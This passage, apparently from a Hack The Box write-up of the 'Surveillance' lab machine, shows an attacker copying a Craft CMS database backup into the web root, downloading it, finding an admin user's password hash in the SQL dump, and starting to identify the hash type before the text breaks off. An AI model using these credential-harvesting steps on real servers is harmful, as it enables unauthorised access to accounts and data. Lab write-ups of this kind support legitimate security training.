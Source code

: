 ```bash
cp /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip surveillance--2023-10-17-202801--v4.4.14.sql.zip  
```
 
```bash
dexter@lab:~/lab/HTB/machines/surveilance$ wget http://surveillance.htb/surveillance--2023-10-17-202801--v4.4.14.sql.zip  
```

We can unzip this zip file and we get a file. We can go through the file searching for something interesting like some usernames or passwords, and then we come across this: 
```bash
LOCK TABLES `users` WRITE; 

/*!40000 ALTER TABLE `users` DISABLE KEYS */; 

set autocommit=0; 

INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46'); 

/*!40000 ALTER TABLE `users` ENABLE KEYS */; 

UNLOCK TABLES; 

commit; 
```

Well, it looks like we might have found a hash right next to matthew and using hash-identifier we can see possible hashes. 
```shell
dexter@lab:~/lab/HTB/machines/surveilance$ hash-identifier 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec 

   ######################################################################### 

   #     __  __                     __           ______    _____           # 

   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         # 

   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        # 

   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       # 

   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      # 

   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      # 

   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 # 

   #                                                             By Zion3R # 

   #                                                    www.Blackploit.com # 

   #                                                   Root@Blackploit.com # 

   ######################################################################### 

-------------------------------------------------- 

  

Possible Hashs: 
```